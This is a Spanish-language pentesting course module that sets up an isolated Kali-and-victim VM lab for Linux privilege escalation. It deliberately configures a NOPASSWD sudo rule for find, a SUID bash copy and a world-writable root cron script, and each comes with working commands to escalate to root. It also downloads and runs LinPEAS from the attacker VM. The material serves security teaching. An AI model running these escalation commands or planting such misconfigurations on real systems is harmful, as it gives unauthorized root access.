


# 06 — Laboratorio: entorno Kali

**Curso:** C|PTA · Pentesting y Técnicas de Ataque  
**Duración estimada:** 90–120 min  
**Entorno:** Kali Linux + VM víctima Linux en red host-only

---

## 6.1 Objetivo

Montar un laboratorio aislado para practicar post-explotación y escalada sin riesgo para sistemas reales.



Al terminar podrás:

- Crear usuarios y grupos de prueba.
- Configurar reglas sudo y binarios SUID.
- Programar una tarea cron.
- Enumerar con comandos manuales y LinPEAS.
- Documentar un vector de escalada.

---

## 6.2 Arquitectura

| Nodo | Rol | IP sugerida | Recursos |
|---|---|---|---|
| `kali` | Atacante | 192.168.56.10 | 2 vCPU, 4 GB RAM |
| `victima` | Objetivo Linux | 192.168.56.20 | 2 vCPU, 2 GB RAM |

### Red

- Adaptador 1: **Host-Only** (`vmbr1` o red interna de VirtualBox).
- Sin salida a Internet en la víctima (opcional).
- Snapshot limpio antes de cada práctica.



*Kali Linux en una máquina virtual. Fuente: Wikimedia Commons.*

---

## 6.3 Preparación

### Kali

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y openssh-server netcat-traditional curl wget
```

### Víctima

```bash
sudo apt update && sudo apt install -y openssh-server cron
sudo systemctl enable --now ssh
```

### Verificar conectividad

```bash
# Desde Kali
ping -c 3 192.168.56.20
nmap -Pn -n -sV 192.168.56.20
```

> [!WARNING]
> No conectes la VM víctima a Bridged. Una máquina con servicios débiles quedaría expuesta a la red local.

---

## 6.4 Ejercicio 1: identidades y permisos

### Crear usuario de prueba

```bash
# En la víctima
sudo useradd -m -s /bin/bash alumno
sudo passwd alumno
sudo groupadd dev
sudo usermod -aG dev alumno
```

### Verificar

```bash
id alumno
groups alumno
cat /etc/passwd | grep alumno
```

### Crear archivos con permisos

```bash
sudo mkdir -p /opt/lab
echo "dato sensible" | sudo tee /opt/lab/secreto.txt
sudo chown root:root /opt/lab/secreto.txt
sudo chmod 640 /opt/lab/secreto.txt
ls -l /opt/lab/secreto.txt
```

**Pregunta:** ¿puede `alumno` leer el archivo? ¿Por qué?

---

## 6.5 Ejercicio 2: sudo mal configurado

### Configurar una regla insegura (solo laboratorio)

```bash
sudo visudo
```

Añadir:

```text
alumno ALL=(root) NOPASSWD: /usr/bin/find
```

### Validar

```bash
su - alumno
sudo -l
```

### Explotar de forma controlada

```bash
sudo find /tmp -exec /bin/bash \; -quit
id
```

Deberías obtener `uid=0(root)`.

> [!WARNING]
> Esta regla es deliberadamente insegura. No la dejes en ningún sistema real. Al terminar, elimínala.

### Remediar

```bash
sudo visudo
# Eliminar la línea de alumno
```

---

## 6.6 Ejercicio 3: SUID

### Crear un binario SUID de prueba

```bash
sudo cp /bin/bash /opt/lab/bash-suid
sudo chown root:root /opt/lab/bash-suid
sudo chmod 4755 /opt/lab/bash-suid
ls -l /opt/lab/bash-suid
```

### Verificar

```bash
find / -perm -4000 -type f 2>/dev/null | grep bash-suid
```

### Ejecutar

```bash
/opt/lab/bash-suid -p
id
```

> [!NOTE]
> `bash -p` conserva los privilegios del propietario. Sin `-p`, bash puede descartar el SUID por seguridad.

### Limpiar

```bash
sudo rm /opt/lab/bash-suid
```

---

## 6.7 Ejercicio 4: cron

### Crear un script escribible

```bash
sudo mkdir -p /opt/lab/cron
sudo tee /opt/lab/cron/backup.sh <<'EOF'
#!/bin/bash
date >> /var/log/lab-backup.log
EOF
sudo chmod 777 /opt/lab/cron/backup.sh
```

### Programar la tarea

```bash
sudo crontab -e
```

Añadir:

```text
* * * * * root /opt/lab/cron/backup.sh
```

### Simular el vector

```bash
# Como alumno
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /opt/lab/cron/backup.sh
# Esperar 1 minuto
/tmp/rootbash -p
id
```

### Limpiar

```bash
sudo crontab -e   # eliminar la línea
sudo rm -rf /opt/lab/cron /tmp/rootbash
```

> [!WARNING]
> No dejes tareas cron de prueba activas. Pueden ejecutarse indefinidamente y afectar el laboratorio.

---

## 6.8 Ejercicio 5: enumeración con LinPEAS

```bash
# En Kali, servir LinPEAS
cd /opt
python3 -m http.server 8000

# En la víctima
curl -sL http://192.168.56.10:8000/linpeas.sh -o /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh | tee /tmp/linpeas-output.txt
```

### Analizar

- Busca secciones en rojo/amarillo.
- Identifica al menos tres hallazgos.
- Valida cada uno con un comando manual.
- Descarta los que no sean explotables.

> [!TIP]
> Guarda la salida y anota la sección exacta. Un hallazgo sin ubicación no es reproducible.

---

## 6.9 Evidencia y reporte

```markdown
## Reporte de laboratorio

**Alumno:**
**Fecha:**
**Host víctima:**

### 1. Configuración inicial
...

### 2. Vectores encontrados
| Vector | Comando | Resultado | Riesgo |
|---|---|---|---|

### 3. Evidencia
...

### 4. Escalada validada
...

### 5. Remediación
...

### 6. Limpieza
...
```

---

## 6.10 Troubleshooting

| Problema | Causa | Solución |
|---|---|---|
| No hay ping entre VM | Red mal configurada | Revisar host-only |
| `sudo -l` no muestra regla | Usuario o sintaxis incorrecta | Revisar `visudo` |
| SUID no funciona | `nosuid` en montaje | Revisar `mount` |
| Cron no ejecuta | Servicio detenido | `systemctl status cron` |
| LinPEAS no descarga | Sin red o puerto | Revisar `python3 -m http.server` |
| Permisos denegados | Usuario equivocado | `id`, `su -` |

---

## 6.11 Autoevaluación

1. ¿Por qué el laboratorio debe ser host-only?
2. ¿Cómo creas un usuario de prueba?
3. ¿Qué regla sudo permite ejecutar `find` como root?
4. ¿Qué hace `chmod 4755`?
5. ¿Cómo detectas un cron escribible?
6. ¿Qué sección de LinPEAS revisarías primero?
7. ¿Qué evidencia guardarías de una escalada?

---

**Anterior:** [05 — Vectores de escalada](05-escalada-linux.md) · **Volver al índice:** [README](README.md)
